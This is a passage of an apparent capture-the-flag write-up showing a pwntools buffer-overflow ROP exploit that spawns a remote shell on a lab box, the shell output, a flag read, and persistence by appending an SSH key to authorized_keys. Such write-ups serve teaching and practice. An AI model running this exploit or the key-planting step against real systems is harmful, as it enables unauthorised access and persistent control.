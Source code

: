 

    #!/usr/bin/env python

    from pwn import *

    context(os="linux", arch="amd64")

    binsh = "/bin/sh\x00"
    junk = "A"*(120 - len(binsh))
    plt_system = p64(0x401040)
    test = p64(0x401152)
    pop_r13_r14_r15 = p64(0x401206)

    payload = junk + binsh + pop_r13_r14_r15 + plt_system + p64(0) + p64(0) + test

    p = remote("10.10.10.147", 1337)
    p.recvline()
    p.sendline(payload)
    p.interactive()



And it also gets a shell:



    root@kali# ./pwn_safe-m3.py 
    [+] Opening connection to 10.10.10.147 on port 1337: Done
    [*] Switching to interactive mode
    $ id
    uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)



### Flag

With any of the three shells, I can grab `user.txt`:



    $ cat /home/user/user.txt
    7a29ee9b...



### Shell Upgrade

The box is quite bare. No `python`, `python3`, `nc`. But ssh is
listening, so I'll drop my public key into the `authorized_keys` file
and connect over ssh to get a full shell:



    root@kali# cat ~/id_rsa_generated.pub | base64 -w0
    c3NoLXJzYSBBQUFBQjNOemFDMXljMkVBQUFBREFRQ...[snip]...





    $ echo c3NoLXJzYSBBQUFBQjNOemFDMXljMkVBQUFBREFRQ...[snip]... | base64 -d >> /home/user/.ssh/authorized_keys
